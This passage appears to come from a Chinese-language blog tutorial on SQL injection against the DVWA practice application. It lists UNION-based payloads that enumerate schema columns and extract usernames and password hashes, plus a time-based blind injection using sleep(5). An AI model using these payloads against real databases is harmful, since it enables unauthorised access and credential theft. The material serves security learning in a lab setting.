 

 ![3-11](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903224603.png)

```mysql
#原始语句
mysq1> select first_name,last_name from dvwa.users where user_id='$id'

#查询数据表
'union select 1, column_name from INFORMATION_SCHEMA.columns where table_name="users' --'
'union select 1, column_name from INFORMATION_SCHEMA.columns where table_name='USER PRIVILEGE' --'

'union select 1, column_name from INFORMATION_SCHEMA.columns where table_name='SCHEMA_PRIVILEGES' --'
```



 ![3-12](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903224737.png)

```mysql
#查询数据列
'union select NULL, user from users -- '
'union select NULL, password from users -- '
'union select user, password from users -- '
'union select NULL, GRANTEE from USER_PRIVILEGES -- '
'union select password, concat(first_name,' ',last_name,' ',user)  from users --'
#输入语句
mysq1> select first_name,last_name from dvwa.users where user_id=' 'union select password, concat(first_name,' ',last_name,' ',user)  from users --'

#concat 将其他多余的字段放到一起，可以理解为一个容器
' union select user,concat(first_name,' ',last_name,' ',user) from users -- '
```

> ==注入语句==

![3-13](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903224928.png)

这样可以查到本张表以外的其他数据

==前提是==

第一要知道union前面SQL语句查询的字段数

第二要知道union后面的要查的那张表的字段名

#### 4.4、基于时间的盲注（blind）

SQL injection（Blind）— 盲注

有些数据库对错误信息做了安全配置，是不能通过以上方式探测到注入点，此时，通过设置sleep语句来探测注入点

```mysql
1'and sleep(5) -- '
```

 ![3-14](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903225508.png)
